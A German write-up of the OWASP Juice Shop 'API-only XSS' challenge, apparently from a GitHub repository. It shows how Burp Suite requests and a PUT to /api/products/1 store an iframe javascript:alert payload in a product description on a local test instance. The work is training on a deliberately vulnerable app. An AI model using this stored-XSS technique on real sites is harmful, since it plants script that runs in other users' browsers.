




# Bericht: Challenge "API-only XSS"

:::danger[Nur für Testzwecke]
Dieses Werkzeug ist ausschließlich für Ausbildung und autorisierte Penetrationstests gedacht. Es gegen Systeme einzusetzen, für die du keine ausdrückliche Testerlaubnis hast, ist strafbar und unethisch.
:::

**Projekt**: OWASP Juice Shop, Challenge "API-only XSS" (XSS) <br/ >
**Werkzeuge**: Kali Linux mit Burp Suite <br/ >
**Autor**: Pascal Nehlsen <br/ >
**GitHub-Link**: [https://github.com/PascalNehlsen/juice-shop-challenges/blob/main/challenges/api-only-xss.md](https://github.com/PascalNehlsen/juice-shop-challenges/blob/main/challenges/api-only-xss.md)

## Inhalt

1. [Einführung](#einführung)
2. [Ziel](#ziel)
3. [Vorgehen](#vorgehen)
   - [Schritt 1: Informationen sammeln](#schritt-1-informationen-sammeln)
   - [Schritt 2: API-Endpunkte analysieren](#schritt-2-api-endpunkte-analysieren)
   - [Schritt 3: XSS-Payload einschleusen](#schritt-3-xss-payload-einschleusen)
4. [Fazit](#fazit)

### Einführung

Der OWASP Juice Shop ist eine absichtlich verwundbare Webanwendung, die Sicherheitsprobleme vorführt, darunter Cross-Site Scripting (XSS). Dieser Bericht beschreibt die Schritte, mit denen ich die Challenge "API-only XSS" gelöst habe.

### Ziel

Ziel war, eine XSS-Schwachstelle über die API-Endpunkte des Juice Shop auszunutzen. Der Weg dahin: schädliche Skripte in die Beschreibung eines Produkts einbetten und prüfen, ob sie im Browser ausgeführt werden. Gelöst ist die Challenge, wenn ein XSS-Payload dauerhaft in der Anwendung liegt.

### Vorgehen

#### Schritt 1: Informationen sammeln

Um herauszufinden, wo dauerhafte Daten im Shop liegen, habe ich Produktbeschreibungen als wahrscheinliches Ziel betrachtet. Mit der "Intercept"-Funktion von Burp Suite habe ich die HTTP-Requests abgefangen, um die beteiligten API-Aufrufe zu untersuchen.

<div align="center">



</div>

In der HTTP-History fand ich einen `GET`-Request an `/api/Quantitys/`. Diesen schickte ich in den Repeater von Burp Suite. Als ich den Endpunkt auf `/api/Products/` änderte, bekam ich eine vollständige JSON-Antwort mit allen Produktdaten.

Beispielprodukt im JSON-Format:

```json
{
  "id": 1,
  "name": "Apple Juice (1000ml)",
  "description": "The all-time classic.",
  "price": 1.99,
  "deluxePrice": 0.99,
  "image": "apple_juice.jpg",
  "createdAt": "2024-10-24T10:01:58.486Z",
  "updatedAt": "2024-10-24T10:01:58.486Z",
  "deletedAt": null
}
```

#### Schritt 2: API-Endpunkte analysieren

Nachdem ich die Produktdaten hatte, sah ich mir die API-Endpunkte genauer an. Ein `OPTIONS`-Request an `/api/Products/` bestätigte, dass die API die üblichen HTTP-Methoden unterstützt (GET, POST, PUT, PATCH).

```bash
OPTIONS /api/Products/ HTTP/1.1
```

Da Versuche, die Produktdaten mit `PATCH` zu ändern, fehlschlugen (Status 500), nahm ich `PUT`, das die Daten vollständig ersetzt. Zusätzlich setzte ich `Content-Type` auf `application/json`, weil die GET-Antwort JSON war. Über die IDs in den JSON-Daten erreichte ich das erste Produkt direkt unter `/api/products/1`.

Zuerst testete ich das Ändern der Beschreibung ohne XSS-Payload:

**PUT-Request zum Ändern der Produktbeschreibung**

```bash
PUT /api/products/1 HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: application/json
Connection: keep-alive

{
"description": "OWASP is King"
}
```

Der Server antwortete mit Status 200 und bestätigte die Änderung:

```json
{
  "status": "success",
  "data": {
    "id": 1,
    "name": "Apple Juice (1000ml)",
    "description": "OWASP is King",
    "price": 1.99,
    "deluxePrice": 0.99,
    "image": "apple_juice.jpg",
    "createdAt": "2024-10-24T10:01:58.486Z",
    "updatedAt": "2024-10-24T11:06:53.363Z",
    "deletedAt": null
  }
}
```

In der Oberfläche des Juice Shop war die Beschreibung erfolgreich geändert.

<div align="center">



</div>

#### Schritt 3: XSS-Payload einschleusen

Um die Challenge zu lösen, versuchte ich, ein iframe mit JavaScript-Payload in die Beschreibung zu legen:

```json
{
  "description": "<iframe src=\"javascript:alert(`xss`)\">"
}
```

Ohne escapte Anführungszeichen gab der Server wegen Syntaxfehlern eine 500 zurück. Mit Backslashes vor den Anführungszeichen (`\"`) wurde der Payload verarbeitet und der Status war 200.

Nach dem Neuladen der Seite sah ich die geänderte Beschreibung. Der XSS-Payload wurde beim Ansehen des Produkts wie beabsichtigt ausgeführt, die Schwachstelle war damit bestätigt.

<div align="center">



</div>

### Fazit

Der Test hat die Challenge gelöst, indem ein dauerhafter XSS-Payload über einen direkten API-Request in die Beschreibung des Apfelsaft-Produkts eingebettet wurde, am Web-Frontend vorbei.

<div align="center">



</div>

---

**Repository:** [https://github.com/PascalNehlsen/juice-shop-challenges/blob/main/challenges/api-only-xss.md](https://github.com/PascalNehlsen/juice-shop-challenges/blob/main/challenges/api-only-xss.md)
